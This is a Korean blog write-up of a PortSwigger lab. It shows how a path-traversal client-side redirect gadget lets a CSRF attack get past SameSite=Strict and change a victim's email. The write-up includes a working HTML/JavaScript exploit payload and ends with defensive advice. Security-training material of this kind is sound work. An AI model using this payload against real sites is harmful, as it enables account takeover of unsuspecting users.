



+++
date = '2026-06-24T18:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - SameSite Strict bypass via client-side redirect'
summary = "Strict 쿠키로 교차 사이트 요청이 막힌 환경에서 postId 파라미터를 따라가는 클라이언트 측 리다이렉트를 경로 탈출로 조작해 same-site 요청을 만들어내는 풀이"
toc = true
tags = ["CSRF", "SameSite", "Client-Side Redirect", "Path Traversal", "PortSwigger", "Practitioner"]
url = '/write-up/portswigger/csrf/write-up-portswigger---samesite-strict-bypass-via-client-side-redirect/'
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [SameSite Strict bypass via client-side redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

> 

이메일 변경 기능에 CSRF 취약점이 존재한다. 제목에서 알 수 있듯 Strict SameSite 정책을 클라이언트 측 리다이렉트로 우회해야 한다. CSRF 공격으로 피해자의 이메일 주소를 변경하면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### CSRF 진단

정상적으로 이메일을 변경하고 요청을 확인한다.

```http
POST /my-account/change-email HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

email=csrf%40csrf.com&submit=1
```

`email`과 함께 `submit` 파라미터가 전송된다. 세션 쿠키는 `SameSite=Strict`이므로 교차 사이트 요청에는 메서드와 무관하게 쿠키가 전혀 실리지 않는다. 공격자 도메인에서 직접 보내는 요청은 어떤 형태로도 성립하지 않는다.

`Strict`를 우회하려면 요청이 대상 사이트 안에서 발생해야 한다. 즉 사이트 내부에서 목적지를 조작할 수 있는 가젯을 찾아야 한다.

먼저 이메일 변경 엔드포인트의 허용 메서드를 확인한다.

```http
HTTP/2 405 Method Not Allowed
Allow: GET, POST
Content-Type: application/json; charset=utf-8
```

`GET`도 허용되며, 실제로 메서드를 바꿔 보내면 이메일이 정상적으로 변경된다. 파라미터를 URL에 담을 수 있으므로 탐색(navigation)만으로 공격이 완성된다.

참고로 마이페이지는 URL 파라미터로 준 `email` 값을 입력 필드에 반영하지만, `submit` 파라미터를 붙여도 자동 제출되지는 않는다.



이제 사이트 내부의 리다이렉트 가젯을 찾는다. 블로그 댓글 작성 후 확인 페이지에서 동작하는 스크립트가 눈에 띈다.

```javascript
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

목적지가 `blogPath + '/' + postId`로 만들어지고, `postId`는 URL 파라미터에서 그대로 읽어온다. 값 검증이 없으므로 상대 경로를 넣어 `blogPath` 밖으로 탈출할 수 있다.

```text
/post/comment/confirmation?postId=../my-account
```

이 경로로 접근하면 3초 뒤 마이페이지로 이동한다. 리다이렉트가 사이트 내부에서 발생하므로 결과 요청은 same-site로 취급되어 `Strict` 쿠키가 첨부된다.

---

## 익스플로잇

리다이렉트 목적지를 이메일 변경 엔드포인트로 지정하고, 필요한 파라미터를 인코딩해 함께 넘긴다.

```html
<script>
    location.href = "https://<lab-id>.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3Femail%3Dcsrf@csrf.com%26submit%3D1";
</script>
```

`?`와 `&`를 각각 `%3F`, `%26`로 인코딩한 이유는 이 값들이 확인 페이지의 `postId` 파라미터 값으로 먼저 읽혀야 하기 때문이다. 인코딩하지 않으면 브라우저가 확인 페이지 자체의 쿼리 문자열 구분자로 해석해 `postId` 값이 잘린다. `searchParams.get()`이 디코딩한 뒤 문자열로 이어 붙이므로, 최종 목적지 URL에서는 정상적인 구분자로 복원된다.

흐름은 다음과 같다. 피해자가 페이로드를 열면 공격자 사이트에서 확인 페이지로 이동한다(교차 사이트 탐색이라 이때는 쿠키가 없지만 스크립트 실행에는 문제가 없다). 3초 뒤 스크립트가 같은 사이트 내부에서 이메일 변경 URL로 이동시키고, 이 요청은 same-site이므로 `Strict` 쿠키가 첨부된다.

이 페이로드를 피해자에게 전달하면 문제가 해결된다.



---

## 정리

`SameSite=Strict`는 교차 사이트에서 출발한 요청에 쿠키를 붙이지 않는다. 다만 브라우저가 판단하는 기준은 **그 요청을 최종적으로 발생시킨 컨텍스트**이지 사용자가 처음 어디서 출발했는지가 아니다. 대상 사이트 내부에서 실행된 스크립트가 만들어낸 탐색은, 그 페이지에 도달한 경로가 공격자 사이트였더라도 same-site 요청이다.

여기서 클라이언트 측 리다이렉트가 서버 측 리다이렉트와 다른 이유가 드러난다. 서버가 `302`로 돌려주는 리다이렉트는 브라우저가 원래 요청의 컨텍스트를 이어받아 교차 사이트로 판단하지만, 페이지가 로드된 뒤 JavaScript가 수행하는 탐색은 그 페이지 자신이 출발점이 된다. 그래서 클라이언트 측 리다이렉트 가젯은 SameSite 우회에서 반복적으로 활용된다.

이 랩에서 가젯이 된 코드는 원래 사용자 편의를 위한 것이고 단독으로는 오픈 리다이렉트로도 분류되지 않는다. 경로 조각 하나를 사용자 입력으로 받는다는 사실만으로 사이트 내부에서 임의 엔드포인트를 호출하는 수단이 되었다. 진단에서 `Strict` 쿠키를 만났을 때 "CSRF 불가"로 끝내지 말고, 사이트 내부에서 목적지를 조작할 수 있는 코드를 먼저 찾아야 하는 이유다.

방어는 리다이렉트 목적지를 사용자 입력으로 구성하지 않는 것이다. 부득이하다면 값을 숫자나 허용 목록으로 제한하고 경로 구분자를 차단해야 한다. 더 근본적으로는 SameSite를 유일한 방어로 두지 말고 세션에 결합된 CSRF 토큰을 함께 적용해야 하며, 상태를 변경하는 엔드포인트가 `GET`을 받아들이지 않게 하는 것만으로도 이 공격은 성립하지 않는다.
